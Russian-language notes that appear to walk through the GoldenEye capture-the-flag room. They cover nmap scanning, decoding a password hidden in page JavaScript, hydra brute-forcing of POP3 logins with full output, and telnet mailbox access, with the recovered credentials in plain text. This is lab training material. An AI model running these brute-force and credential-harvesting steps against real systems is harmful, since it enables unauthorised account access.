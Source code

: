 
nmap -sC -sV ip - не дал результата, нашел два порта, платформа не приняла ответ

=nmap -A -T4 ip - тоже нет 

nmap -p- -Pn ip - дал 4 порта 

25, 80, 55006, 55007

55007 - pop3

gobuster и dirsearch - не дали результата, просто не сработали

зашла по ip в браузере, на страние смотрим код 

на странице обнаружен js скрипт, открыла 

найдена закодированная строка - &#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114
HTML entity decoder - InvincibleHack3r

Борис не обновил пароль 

login ip/sev-home/

telnet 10.10.237.59 55007 
user boris
pass InvincibleHack3r - fail

Supervisors: Boris & Natalya 
найдены в коде на странице - ip/sev-home/

hydra -l Boris -P /usr/share/wordlists/fasttrack.txt -f 10.10.237.59 -s 55007 pop3

--
root@ip-10-10-217-164:~# hydra -l Boris -P /usr/share/wordlists/fasttrack.txt -f 10.10.237.59 -s 55007 pop3
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-24 14:06:37
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://10.10.237.59:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 10.10.237.59   login: Boris   password: secret1!
[STATUS] attack finished for 10.10.237.59 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-24 14:09:10
--

telnet 10.10.237.59 55007 
user boris 
pass secret1!

list

выдал 3 месседжа

retr 1
retr 2
retr 3

ничего интересного, кроме того что В третьем файле важная информация была отправлена пользователем «alec».
Другими словами, в системе есть и другие имена пользователей, помимо «boris». 

hydra -l natalya -P /usr/share/wordlists/fasttrack.txt -f 10.10.237.59 -s 55007 pop3

telnet 10.10.237.59 55007 
user natalya 
pass bird

тоже самое 
лист
ретр

found 
Xenia 
RCP90rulez!

write 
If you're on Linux edit your "/etc/hosts" file and add:

<machines ip> severnaya-station.com

severnaya-station.com/gnocertdir/login/index.php - вот этот момент ваще не поняла 

в профайле есть месседжи

user dr doak

hydra -l doak -P /usr/share/wordlists/fasttrack.txt -f 10.10.237.59 -s 55007 pop3

pass goat

telnet 10.10.237.59 55007 
user doak 
pass goat

list 
retr

username: dr_doak
password: 4England!










